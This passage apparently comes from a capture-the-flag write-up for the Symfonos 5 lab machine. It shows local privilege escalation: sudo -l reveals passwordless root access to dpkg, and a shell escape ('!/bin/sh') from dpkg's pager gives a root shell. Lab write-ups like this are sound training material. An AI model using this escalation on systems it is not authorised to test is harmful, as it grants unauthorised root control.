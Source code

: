 ### 4. Enumerate from user
Check sudo permissions and see that the user can run dpkg as root.
```bash
zeus@symfonos5:~$ sudo -l
Matching Defaults entries for zeus on symfonos5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zeus may run the following commands on symfonos5:
    (root) NOPASSWD: /usr/bin/dpkg
```

### 4. Escalate to root
The dpkg binary does not drop privileges and uses the default pager, meaning a shell can be opened by invoking /bin/sh within it.
```bash
zeus@symfonos5:~$ sudo dpkg -l
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name                          Version                     Architecture Description
...
!/bin/sh
# whoami
root
```
